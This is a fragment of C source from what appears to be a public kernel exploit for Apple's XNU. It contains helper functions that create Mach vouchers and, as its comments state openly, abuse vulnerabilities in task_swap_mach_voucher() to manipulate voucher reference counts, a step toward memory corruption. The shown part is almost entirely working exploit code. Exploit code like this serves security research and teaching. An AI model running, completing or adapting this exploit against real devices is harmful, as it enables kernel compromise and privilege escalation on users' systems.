 ```c
 */
static mach_port_t
create_voucher(uint64_t id) {
	assert(host != MACH_PORT_NULL);
	mach_port_t voucher = MACH_PORT_NULL;
#pragma clang diagnostic push
#pragma clang diagnostic ignored "-Wgnu-variable-sized-type-not-at-end"
	struct __attribute__((packed)) {
		mach_voucher_attr_recipe_data_t user_data_recipe;
		uint64_t user_data_content[2];
	} recipes = {};
#pragma clang diagnostic pop
	recipes.user_data_recipe.key = MACH_VOUCHER_ATTR_KEY_USER_DATA; //7
	recipes.user_data_recipe.command = MACH_VOUCHER_ATTR_USER_DATA_STORE; //211
	recipes.user_data_recipe.content_size = sizeof(recipes.user_data_content);
	recipes.user_data_content[0] = getpid();
	recipes.user_data_content[1] = id;
	kern_return_t kr = host_create_mach_voucher(
			host,
			(mach_voucher_attr_raw_recipe_array_t) &recipes,
			sizeof(recipes),
			&voucher);
	assert(kr == KERN_SUCCESS);
	assert(voucher != MACH_PORT_NULL);
	return voucher;
}

/*
 * voucher_tweak_references
 *
 * Description:
 * 	Use the task_swap_mach_voucher() vulnerabilities to modify the reference counts of 2
 * 	vouchers. 
 *
 */
static void
voucher_tweak_references(mach_port_t release_voucher, mach_port_t reference_voucher) {
	// Call task_swap_mach_voucher() to tweak the reference counts (two bugs in one!).
	mach_port_t inout_voucher = reference_voucher;
	kern_return_t kr = task_swap_mach_voucher(mach_task_self(), release_voucher, &inout_voucher);
	assert(kr == KERN_SUCCESS);
	// At this point we've successfully tweaked the voucher reference counts, but our port
	// reference counts might be messed up because of the voucher port returned in
	// inout_voucher! We need to deallocate it (it's extra anyways, since
	// task_swap_mach_voucher() doesn't swallow the existing send rights).
	if (MACH_PORT_VALID(inout_voucher)) {
		kr = mach_port_deallocate(mach_task_self(), inout_voucher);
		assert(kr == KERN_SUCCESS);
	}
}

/*
 * voucher_reference
 *
 * Description:
 * 	Add a reference to the voucher represented by the voucher port.
 */
static void
voucher_reference(mach_port_t voucher) {
	voucher_tweak_references(MACH_PORT_NULL, voucher);
}

/*
```